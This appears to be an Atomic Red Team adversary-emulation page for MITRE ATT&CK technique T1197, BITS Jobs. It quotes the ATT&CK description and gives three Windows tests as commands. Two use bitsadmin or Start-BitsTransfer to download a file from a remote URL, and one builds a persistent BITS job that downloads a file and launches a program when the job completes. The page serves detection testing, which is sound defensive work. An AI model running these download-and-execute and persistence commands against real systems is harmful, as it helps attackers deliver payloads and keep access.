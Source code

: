 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1197)
<blockquote>Adversaries may abuse BITS jobs to persistently execute or clean up after malicious payloads. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM). (Citation: Microsoft COM) (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1059/001)  (Citation: Microsoft BITS) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool. (Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048). (Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Bitsadmin Download (cmd)](#atomic-test-1---bitsadmin-download-cmd)

- [Atomic Test #2 - Bitsadmin Download (PowerShell)](#atomic-test-2---bitsadmin-download-powershell)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)


<br/>

## Atomic Test #1 - Bitsadmin Download (cmd)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | %temp%&#92;bitsadmin_flag.ps1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /transfer /Download /priority Foreground #{remote_file} #{local_file}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Bitsadmin Download (PowerShell)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | $env:TEMP&#92;bitsadmin_flag.ps1|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transfer
and execute a payload in multiple steps. This job will remain in the BITS queue for 90 days by default if not removed.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_path | Path of command to execute | path | C:&#92;Windows&#92;system32&#92;notepad.exe|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| local_file | Local file path to save downloaded file | path | %temp%&#92;bitsadmin_flag.ps1|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| command_line | Command line to execute | string | %temp%&#92;bitsadmin_flag.ps1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} #{command_line}
bitsadmin.exe /complete AtomicBITS
bitsadmin.exe /resume #{bits_job_name}
```






<br/>
